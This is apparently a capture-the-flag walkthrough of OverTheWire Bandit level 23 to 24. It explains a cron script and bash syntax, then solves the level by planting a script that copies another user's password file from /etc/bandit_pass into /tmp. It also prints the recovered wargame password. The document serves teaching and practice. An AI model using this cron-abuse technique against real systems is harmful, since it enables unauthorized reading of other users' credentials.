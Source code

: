 # Bandit Level 23 -> Level 24

A program is running automatically at regular intervals from `cron`, the time-based job scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

# /etc/cron.d/cronjob_bandit24

```console
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

# /usr/bin/cronjob_bandit24.sh

```console
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

1. cd to `/var/spool/$myname`
1. `for i in * .*;`: loop over all files in the current directory (_ for visible files, ._ for all hidden files),

Looping over hidden files

```console
jeremy@Jeremy-PC:~$ for i in .*; do echo "$i"; done
.
..
.bash_history
.bash_logout
.bashrc
.landscape
.lesshst
.local
.motd_shown
.profile
.ssh
.sudo_as_admin_successful
.viminfo
```

1. `if [ "$i" != "." -a "$i" != ".." ]`

   `[` is a symbolic link to the `test` program. It is a program and must be surrounded by spaces.

   `if [$foo = "bar" ]` will NOT WORK!

   From `man test`, `EXPRESSION1 -a EXPRESION2` means a test for both `EXPRESSION1` and `EXPRESION2`

   When considering directory names, a single dot (.) represents the current working directory, and two dots (..) denote the parent directory.

   A check is done to see if the current loop variable (`$i`) is not the current directory or the parent directory

`if statement syntax`

```shell
if [ ... ]
then
  # if-code
else
  # else-code
fi
```

`fi` is `if` backwards!

# If the current file (visible or hidden) is not the current directory or the parent directory

```console
echo "Handling $i"
owner="$(stat --format "%U" ./$i)"
if [ "${owner}" = "bandit23" ]; then
    timeout -s 9 60 ./$i
fi
rm -f ./$i
```

# `stat` command

Display file or file system status.

`-c, --format=FORMAT`: Use the specified `FORMAT` instead of the default

`%U` `FORMAT`: Username of owner

# File permissions (rwx)

1. Read (r)

   The read permission grants the ability to read a file. When set for a directory, this grants the ability to read the names of files in the directory, but not to find out any further information about them such as contents, the type, size, ownership and permissions.

1. Write (w)

   The write permission grants the ability to modify a file. When set for a directory, this allows for the modification of entries in the directory, which includes creating files, deleting files and renaming files. Note that this requires that execute is also set; without it, the write permission is meaningless for directories.

1. Execute (x)

   The execute permission grants the ability to execute a file. This permission must be set for executable programs, in order for the operating system to run them. When set for a directory, the execute permission is interpreted as the search permission: it grants the ability to access file contents and meta information if its name is known, but not list files inside the directory, unless read is set also.

# Command to execute

1. Create script (.sh) and place it in `/var/spool/bandit24` for execution.

   Obtain password from `/etc/bandit_pass/bandit24`, store it in tmp file, or else it will be deleted by the cronjob.

```console
bandit23@bandit:~$ mkdir /tmp/test
bandit23@bandit:~$ cd /tmp/test
bandit23@bandit:/tmp/test$ touch script.sh
bandit23@bandit:/tmp/test$ ls
script.sh
bandit23@bandit:/tmp/test$ vim script.sh

#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/test/password

bandit23@bandit:/tmp/test$ chmod +x script.sh
bandit23@bandit:/tmp/test$ ls -l
total 4
-rwxr-xr-x 1 bandit23 root 69 Jun 17 10:00 script.sh
bandit23@bandit:/tmp/test$ touch password
bandit23@bandit:/tmp/test$ chmod 666 password
bandit23@bandit:/tmp/test$ ls -l
total 4
-rw-rw-rw- 1 bandit23 root  0 Jun 17 10:07 password
-rwxr-xr-x 1 bandit23 root 65 Jun 17 10:02 script.sh

bandit23@bandit:/tmp/test$ cp script.sh /var/spool/bandit24/
bandit23@bandit:/tmp/test$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

The password is stored in the file `password` after one minute.

# PASSWORD

UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
